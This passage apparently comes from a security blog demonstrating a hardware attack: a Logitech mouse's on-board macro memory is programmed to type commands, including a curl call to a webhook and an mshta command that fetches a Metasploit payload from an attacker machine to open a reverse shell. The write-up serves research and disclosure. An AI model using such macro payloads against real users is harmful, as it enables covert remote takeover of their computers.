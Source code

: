 As before, we save the macro, enable on-board memory and replace the default profile. Next, we quit the Logitech G Hub, to ensure that the macro is executed from memory. In addition, we have the webhook site on the right site to see the request from the target machine:

<video src="/assets/mousehack/videos/curl_demo.mp4" type="video/mp4" width="100%" controls></video>

As you can see, with the delay optimization executing the macro is almost instant and the user can (maybe) only notice one or two flashing windows that close immediately. An unsuspecting user could think that the OS is still installing drivers for the mouse.

Modifying the payload for Linux, replacing "Win + R" for "Alt + F2" and we see that on Ubuntu it's almost identical:

<video src="/assets/mousehack/videos/curl_demo_ubuntu.mp4" type="video/mp4" width="100%" controls></video>

## Reverse shell 

We will use a fairly short payload using a well known exploit in Metasploit. As you will see it gets caught by Windows Defender and is not executed. For demonstration purposes we will disable Windows Defender and repeat the demo.

We are using two machines in a local network - the victim Windows machine and an attacker Kali machine.

We are setting our macro to:

{% highlight cmd %}
WIN+R mshta.exe http://192.168.56.102:8080/
{% endhighlight %}

![](/assets/mousehack/images/shell_macro.png)
